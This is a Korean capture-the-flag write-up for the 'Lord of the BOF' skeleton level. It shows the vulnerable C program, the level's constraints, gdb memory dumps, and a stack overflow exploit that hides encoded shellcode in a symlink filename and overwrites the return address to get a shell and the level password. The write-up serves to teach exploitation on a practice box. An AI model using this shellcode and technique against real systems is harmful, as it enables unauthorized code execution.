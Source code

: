 Vampire -> Skeleton

**skeleton.c**
```
/*
        The Lord of the BOF : The Fellowship of the BOF
        - skeleton
        - argv hunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i, saved_argc;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	// egghunter 
	for(i=0; environ[i]; i++)
		memset(environ[i], 0, strlen(environ[i]));

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

	// check the length of argument
	if(strlen(argv[1]) > 48){
		printf("argument is too long!\n");
		exit(0);
	}

	// argc saver
	saved_argc = argc;

	strcpy(buffer, argv[1]); 
	printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);

	// ultra argv hunter!
	for(i=0; i<saved_argc; i++)
		memset(argv[i], 0, strlen(argv[i]));
}
```

**조건**
1. argc값이 2 이상이어야 합니다.
2. 환경변수를 사용할 수 없습니다.
3. argv1의 48번째가 '\xbf'이어야 합니다.
4. argv1의 길이가 48보다 크면 안됩니다.
5. buffer 0 ~ 40까지 0으로 초기화 합니다.
6. 인자값을 전부 0으로 초기화 합니다.

>>>		buffer[40] + SFP[4] + RET[4]

인자값이 전부 0으로 초기화가 되기 때문에 인자값에 쉘코드를 삽입할 수 없습니다.<br>
저는 생각없이 스택에 있는 값 처음부터 마지막까지 전부 뒤져 보았습니다. 그러자 마지막에 무언가가 남아있는 것을 볼 수 있었습니다.

```
0xbfffff3c:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffff4c:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffff5c:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffff6c:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffff7c:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffff8c:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffff9c:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffffac:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffffbc:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffffcc:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffffdc:	0x00000000	0x6d6f682f	0x61762f65	0x7269706d
0xbfffffec:	0x65742f65	0x732f706d	0x656c656b	0x006e6f74
0xbffffffc:	0x00000000	Cannot access memory at address 0xc0000000
```

저 부분을 문자열 형태로 다시 보니...

```
0xbfffffdf:	 ""
0xbfffffe0:	 "/home/vampire/temp/skeleton"
0xbffffffc:	 ""
0xbffffffd:	 ""
```
x/100s 처럼 하면 문자열 형태로 메모리 값을 볼 수 있습니다.

파일 경로와 파일명이 파일 끝부분에 남아있는 것을 볼 수 있었습니다.<br>
그러면 심볼릭 링크를 이용하여서 파일이름에 쉘코드를 넣는 방법으로 공격하도록 하겠습니다. 

```
[vampire@localhost vampire]$ ln -s skeleton `python -c 'print "ha" + "\x90"*50 + "\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81" + "\x90"*50'`
```
이번에는 쉘코드 앞뒤로 nop을 깔았습니다.
그리고 일부로 core dumped를 만들어서 메모리 주소를 확인하였습니다.

```
0xbfffff60:	0x2e000000	0x9061682f	0x90909090	0x90909090
0xbfffff70:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffff80:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffff90:	0x90909090	0x90909090	0x5e11eb90	0x32b1c931
0xbfffffa0:	0xff0e6c80	0x01e98001	0x05ebf675	0xffffeae8
0xbfffffb0:	0x51c132ff	0x74303069	0x63306969	0xe48a6f6a
0xbfffffc0:	0xe28a5451	0xce0cb19a	0x90909081	0x90909090
0xbfffffd0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffffe0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffff0:	0x90909090	0x90909090	0x00909090	0x00000000
```
역시 끝부분에 파일이름이 남아 있는 것을 확인 할 수 있었습니다. <br>
저 주소로 공격을 하도록 하겠습니다.

```
[vampire@localhost vampire]$ ./haꝑ^1ɱ2l^Nÿ^A蝁u󪝅髿ÿÿ2i00tii0cjo㐔⚱^L΁ `python -c 'print "A"*44 + "\x70\xff\xff\xbf"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAApÿÿ¿
bash$
```

```
[vampire@localhost vampire]$ ./haꝑ^1ɱ2l^Nÿ^A蝁u󪝅髿ÿÿ2i00tii0cjo㐔⚱^L΁ `python -c 'print "A"*44 + "\x70\xff\xff\xbf"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAApÿÿ¿
bash$ my-pass
euid = 510
shellcoder
```

원본과 복사한 파일 전부 공격을 성공하였습니다.